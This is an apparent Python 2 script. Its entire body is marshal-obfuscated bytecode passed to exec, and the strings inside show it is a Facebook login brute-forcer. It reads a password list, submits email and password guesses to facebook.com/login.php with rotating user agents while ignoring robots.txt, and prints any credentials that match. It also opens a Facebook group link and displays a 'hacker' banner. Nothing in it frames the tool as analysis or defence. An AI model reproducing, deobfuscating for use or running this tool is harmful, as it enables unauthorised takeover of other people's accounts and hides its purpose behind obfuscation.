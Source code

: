 # facebook
import marshal

exec marshal.loads('c\x00\x00\x00\x00\x00\x00\x00\x00\x16\x00\x00\x00@\x00\x00\x00sh\x01\x00\x00d\x00\x00d\x01\x00l\x00\x00Z\x00\x00e\x00\x00j\x01\x00d\x02\x00\x83\x01\x00\x01d\x03\x00Z\x02\x00d\x04\x00Z\x03\x00d\x05\x00Z\x04\x00d\x06\x00Z\x05\x00d\x07\x00Z\x06\x00d\x08\x00Z\x07\x00d\t\x00Z\x08\x00e\x03\x00GHe\x02\x00GHd\n\x00j\t\x00e\x02\x00e\x03\x00e\x02\x00e\x03\x00e\x08\x00e\x02\x00e\x04\x00e\x02\x00e\x04\x00e\x02\x00e\x04\x00e\x02\x00e\x04\x00e\x02\x00e\x04\x00e\x02\x00e\x04\x00e\x02\x00e\x04\x00e\x02\x00d\x0b\x00\x83\x15\x00Z\n\x00e\n\x00GHd\x00\x00d\x01\x00l\x0b\x00Z\x0b\x00d\x00\x00d\x01\x00l\x0c\x00Z\x0c\x00d\x00\x00d\x01\x00l\r\x00Z\r\x00d\x00\x00d\x01\x00l\x0e\x00Z\x0e\x00d\x0c\x00Z\x0f\x00d\r\x00Z\x10\x00d\x0e\x00Z\x11\x00d\x0f\x00Z\x12\x00d\x10\x00Z\x13\x00d\x11\x00Z\x14\x00d\x12\x00Z\x15\x00e\x16\x00e\x17\x00d\x13\x00\x83\x01\x00\x83\x01\x00Z\x18\x00e\x16\x00e\x17\x00d\x14\x00\x83\x01\x00\x83\x01\x00Z\x19\x00d\x15\x00Z\x1a\x00d\x1d\x00g\x01\x00Z\x1b\x00d\x18\x00\x84\x00\x00Z\x1c\x00d\x19\x00\x84\x00\x00Z\x1d\x00d\x1a\x00\x84\x00\x00Z\x1e\x00d\x1b\x00\x84\x00\x00Z\x1f\x00e \x00d\x1c\x00k\x02\x00rd\x01e\x1c\x00\x83\x00\x00\x01n\x00\x00d\x01\x00S(\x1e\x00\x00\x00i\xff\xff\xff\xffNsD\x00\x00\x00termux-open-url "https://www.facebook.com/groups/1864140940265166/" s\x0c\x00\x00\x00\x1b[0m\x1b[01;36ms\x07\x00\x00\x00\x1b[1;32ms\x07\x00\x00\x00\x1b[1;33ms\x07\x00\x00\x00\x1b[1;34ms\x07\x00\x00\x00\x1b[1;35ms\x07\x00\x00\x00\x1b[1;36ms\x14\x00\x00\x00@:[1864140940265166]st\x02\x00\x00\n \n    hi hacker  mohamed Pro\n o            o\n  \\          /\n   \\        /\n    :-\'""\'-:\n .-\'  ____  `-.\n( (  (_()_)  ) )\n `-.   ^^   .-\'\n    `._==_.\'\n     __)(___\n\x1b[95m   _   _   _   _   _   _   _   _   _  \n  / \\ / \\ / \\ / \\ / \\ / \\ / \\ / \\ / \\ \n ( a | l | i | e | n | s | - | f | b )\n  \\_/ \\_/ \\_/ \\_/ \\_/ \\_/ \\_/ \\_/ \\_/ \n\x1b[00mHACKER BY MOHAMED LKAMILI PRO\t\n\x1b[95mFACEBOOK ADMIN :: https://www.facebook.com/profile.php?id=1007601942\n\n\n======================= \xef\xba\xb0\xef\xbb\xa8\xef\xbb\xb4\xef\xbb\x9f\xef\xbb\xb9 \xef\xba\x94\xef\xbb\xa4\xef\xbb\x88\xef\xbb\xa8\xef\xbb\xa3++++++++++++++++++++++\n+++++++++++++++++++++=+ \xef\xba\xb0\xef\xbb\xa8\xef\xbb\xb4\xef\xbb\x9f\xef\xbb\xb9 \xef\xba\x94\xef\xbb\xa4\xef\xbb\x88\xef\xbb\xa8\xef\xbb\xa3=======================\n\n\xef\xba\xa9\xef\xbb\xad\xef\xba\xaa\xef\xba\xa3 \xef\xbb\xbc\xef\xba\x91 \xef\xba\xa9\xef\xbb\xae\xef\xbb\xa8\xef\xba\x9f\n\ns\x14\x00\x00\x00Welcome To @Termux@ s\n\x00\x00\x00\x1b[1;37;40ms\n\x00\x00\x00\x1b[1;31;40ms\n\x00\x00\x00\x1b[1;32;40ms\n\x00\x00\x00\x1b[1;33;40ms\n\x00\x00\x00\x1b[1;34;40ms\n\x00\x00\x00\x1b[1;35;40ms\n\x00\x00\x00\x1b[1;36;40ms@\x00\x00\x00\x1b[93m++++++++++++ \x1b[94mId \xef\xba\x94\xef\xbb\xb4\xef\xba\xa4\xef\xba\xbf \x1b[91m =================> s\\\x00\x00\x00\x1b[93m++++++++++ \x1b[94m \xef\xba\x95\xef\xba\x8d\xef\xba\xa9\xef\xba\xad\xef\xbb\xae\xef\xba\xb3\xef\xba\x8e\xef\xba\x92\xef\xbb\x9f \xef\xba\x94\xef\xbb\xa4\xef\xba\x8b\xef\xba\x8e\xef\xbb\x97  \x1b[91m =================> s2\x00\x00\x00https://www.facebook.com/login.php?login_attempt=1sD\x00\x00\x00Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0se\x00\x00\x00Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9.0.1) Gecko/2008071615 Fedora/3.0.1-1.fc9 Firefox/3.0.1c\x00\x00\x00\x00\x01\x00\x00\x00\x04\x00\x00\x00C\x00\x00\x00s\x8c\x00\x00\x00t\x00\x00j\x01\x00\x83\x00\x00a\x02\x00t\x03\x00j\x04\x00\x83\x00\x00}\x00\x00t\x02\x00j\x05\x00t\x06\x00\x83\x01\x00\x01t\x02\x00j\x07\x00t\x08\x00\x83\x01\x00\x01t\x02\x00j\t\x00|\x00\x00\x83\x01\x00\x01t\x02\x00j\n\x00t\x08\x00\x83\x01\x00\x01t\x02\x00j\x0b\x00t\x08\x00\x83\x01\x00\x01t\x02\x00j\x0c\x00t\x00\x00j\r\x00j\x0e\x00\x83\x00\x00d\x01\x00d\x02\x00\x83\x01\x01\x01t\x0f\x00\x83\x00\x00\x01t\x10\x00\x83\x00\x00\x01d\x03\x00GHd\x00\x00S(\x04\x00\x00\x00Nt\x08\x00\x00\x00max_timei\x01\x00\x00\x00s<\x00\x00\x00[PRO]....... \xef\xba\xa9\xef\xba\xad\xef\xbb\xae\xef\xba\xb3\xef\xba\x8e\xef\xba\x92\xef\xbb\x9f \xef\xba\xaa\xef\xba\x9f\xef\xbb\xae\xef\xbb\xb3\xef\xbb\xbb .........(\x11\x00\x00\x00t\t\x00\x00\x00mechanizet\x07\x00\x00\x00Browsert\x02\x00\x00\x00brt\t\x00\x00\x00cookielibt\x0c\x00\x00\x00LWPCookieJart\x11\x00\x00\x00set_handle_robotst\x05\x00\x00\x00Falset\x13\x00\x00\x00set_handle_redirectt\x04\x00\x00\x00Truet\r\x00\x00\x00set_cookiejart\x10\x00\x00\x00set_handle_equivt\x12\x00\x00\x00set_handle_referert\x12\x00\x00\x00set_handle_refresht\x05\x00\x00\x00_httpt\x14\x00\x00\x00HTTPRefreshProcessort\x07\x00\x00\x00welcomet\x06\x00\x00\x00search(\x01\x00\x00\x00t\x02\x00\x00\x00cj(\x00\x00\x00\x00(\x00\x00\x00\x00t\x00\x00\x00\x00t\x04\x00\x00\x00mainK\x00\x00\x00s\x16\x00\x00\x00\x00\x02\x0c\x01\x0c\x01\r\x01\r\x01\r\x01\r\x01\r\x01\x1c\x01\x07\x01\x07\x01c\x01\x00\x00\x00\x05\x00\x00\x00\x03\x00\x00\x00C\x00\x00\x00s\x07\x01\x00\x00t\x00\x00j\x01\x00j\x02\x00d\x01\x00j\x03\x00|\x00\x00\x83\x01\x00\x83\x01\x00\x01t\x00\x00j\x01\x00j\x04\x00\x83\x00\x00\x01d\x02\x00t\x05\x00j\x06\x00t\x07\x00\x83\x01\x00f\x02\x00g\x01\x00t\x08\x00_\t\x00t\x08\x00j\n\x00t\x0b\x00\x83\x01\x00}\x01\x00t\x08\x00j\x0c\x00d\x03\x00d\x04\x00\x83\x00\x01\x01t\r\x00t\x08\x00j\x0e\x00d\x05\x00<|\x00\x00t\x08\x00j\x0e\x00d\x06\x00<t\x08\x00j\x0f\x00\x83\x00\x00}\x02\x00|\x02\x00j\x10\x00\x83\x00\x00}\x03\x00|\x03\x00t\x0b\x00k\x03\x00r\x03\x01d\x07\x00|\x03\x00k\x07\x00r\x03\x01t\x11\x00d\x08\x00\x17t\r\x00\x17d\t\x00j\x03\x00|\x00\x00\x83\x01\x00\x17t\x12\x00\x17GHt\x13\x00d\n\x00\x83\x01\x00}\x04\x00|\x04\x00d\x0b\x00k\x02\x00r\xea\x00t\x14\x00\x83\x00\x00\x01q\x03\x01|\x04\x00d\x0c\x00k\x02\x00r\x03\x01t\x15\x00\x83\x00\x00\x01q\x03\x01n\x00\x00d\x00\x00S(\r\x00\x00\x00NsD\x00\x00\x00\r\x1b[95m=========[P\xc2\xaeO]======= \xef\xbb\xa6\xef\xbb\xb4\xef\xbb\xa4\xef\xba\xa8\xef\xba\x97\x1b[4m ::::::::::::::> {}\ns\n\x00\x00\x00User-agentt\x02\x00\x00\x00nri\x00\x00\x00\x00t\x05\x00\x00\x00emailt\x04\x00\x00\x00passt\r\x00\x00\x00login_attempts,\x00\x00\x00\n\n\x1b[27m======================> Email/Phone: s\r\x00\x00\x00 Password: {}s*\x00\x00\x00\x1b[1m \xd8\x9f\xd8\x9f \xef\xba\x94\xef\xbb\xb4\xef\xba\xa4\xef\xba\xbf \xef\xbb\x86\xef\xbb\x94\xef\xba\xa3\xd8\x9f\xd8\x9f (y/n)t\x01\x00\x00\x00yt\x01\x00\x00\x00n(\x16\x00\x00\x00t\x03\x00\x00\x00syst\x06\x00\x00\x00stdoutt\x05\x00\x00\x00writet\x06\x00\x00\x00formatt\x05\x00\x00\x00flusht\x06\x00\x00\x00randomt\x06\x00\x00\x00choicet\n\x00\x00\x00useragentsR\x03\x00\x00\x00t\n\x00\x00\x00addheaderst\x04\x00\x00\x00opent\x05\x00\x00\x00logint\x0b\x00\x00\x00select_formR\x16\x00\x00\x00t\x04\x00\x00\x00formt\x06\x00\x00\x00submitt\x06\x00\x00\x00geturlt\x02\x00\x00\x00Bgt\x01\x00\x00\x00Wt\t\x00\x00\x00raw_inputt\x04\x00\x00\x00exitt\x05\x00\x00\x00intro(\x05\x00\x00\x00t\x08\x00\x00\x00passwordt\x04\x00\x00\x00sitet\x03\x00\x00\x00subt\x03\x00\x00\x00logt\x01\x00\x00\x00m(\x00\x00\x00\x00(\x00\x00\x00\x00R\x13\x00\x00\x00t\x05\x00\x00\x00brute[\x00\x00\x00s \x00\x00\x00\x00\x01\x19\x01\r\x01\x1b\x01\x0f\x01\x10\x01\r\x01\r\x01\x0c\x01\x0c\x01\x18\x01\x1e\x01\x0c\x01\x0c\x01\n\x01\x0c\x01c\x00\x00\x00\x00\x01\x00\x00\x00\x04\x00\x00\x00C\x00\x00\x00s@\x00\x00\x00t\x00\x00t\x01\x00d\x01\x00\x83\x02\x00}\x00\x00x*\x00|\x00\x00D]"\x00a\x02\x00t\x02\x00j\x03\x00d\x02\x00d\x03\x00\x83\x02\x00a\x02\x00t\x04\x00t\x02\x00\x83\x01\x00\x01q\x16\x00Wd\x00\x00S(\x04\x00\x00\x00Nt\x01\x00\x00\x00rs\x01\x00\x00\x00\nR\x13\x00\x00\x00(\x05\x00\x00\x00R$\x00\x00\x00t\x0c\x00\x00\x00passwordlistR/\x00\x00\x00t\x07\x00\x00\x00replaceR4\x00\x00\x00(\x01\x00\x00\x00t\t\x00\x00\x00passwords(\x00\x00\x00\x00(\x00\x00\x00\x00R\x13\x00\x00\x00R\x11\x00\x00\x00o\x00\x00\x00s\x08\x00\x00\x00\x00\x02\x0f\x01\r\x01\x12\x01c\x00\x00\x00\x00\x01\x00\x00\x00\x03\x00\x00\x00C\x00\x00\x00s\x1f\x00\x00\x00t\x00\x00t\x01\x00d\x01\x00\x83\x02\x00}\x00\x00|\x00\x00j\x02\x00\x83\x00\x00}\x00\x00d\x00\x00S(\x02\x00\x00\x00NR5\x00\x00\x00(\x03\x00\x00\x00R$\x00\x00\x00R6\x00\x00\x00t\t\x00\x00\x00readlines(\x01\x00\x00\x00t\x05\x00\x00\x00total(\x00\x00\x00\x00(\x00\x00\x00\x00R\x13\x00\x00\x00R\x10\x00\x00\x00x\x00\x00\x00s\x04\x00\x00\x00\x00\x01\x0f\x01t\x08\x00\x00\x00__main__(\x02\x00\x00\x00sD\x00\x00\x00Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0se\x00\x00\x00Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9.0.1) Gecko/2008071615 Fedora/3.0.1-1.fc9 Firefox/3.0.1(!\x00\x00\x00t\x02\x00\x00\x00ost\x06\x00\x00\x00systemt\x01\x00\x00\x00At\x01\x00\x00\x00Bt\x01\x00\x00\x00Ct\x01\x00\x00\x00Dt\x01\x00\x00\x00Et\x01\x00\x00\x00Ft\x03\x00\x00\x00grbR\x1e\x00\x00\x00t\x02\x00\x00\x00okR\x1b\x00\x00\x00R\x01\x00\x00\x00R\x04\x00\x00\x00R \x00\x00\x00R+\x00\x00\x00t\x02\x00\x00\x00BrR*\x00\x00\x00t\x01\x00\x00\x00Yt\x02\x00\x00\x00Bbt\x02\x00\x00\x00Bmt\x02\x00\x00\x00Bct\x03\x00\x00\x00strR,\x00\x00\x00R\x16\x00\x00\x00R6\x00\x00\x00R%\x00\x00\x00R"\x00\x00\x00R\x14\x00\x00\x00R4\x00\x00\x00R\x11\x00\x00\x00R\x10\x00\x00\x00t\x08\x00\x00\x00__name__(\x00\x00\x00\x00(\x00\x00\x00\x00(\x00\x00\x00\x00R\x13\x00\x00\x00t\x08\x00\x00\x00<module>\x05\x00\x00\x00sB\x00\x00\x00\x0c\x01\r\x01\x06\x01\x06\x01\x06\x01\x06\x01\x06\x01\x06\x01\x06\x01\x05\x01\x05\x1aK\x01\x05\x04\x0c\x01\x0c\x01\x0c\x01\x0c\x02\x06\x01\x06\x01\x06\x01\x06\x01\x06\x01\x06\x01\x06\x07\x12\x03\x12\x03\x06\x03\t\x02\t\x10\t\x14\t\t\t\x03\x0c\x01')
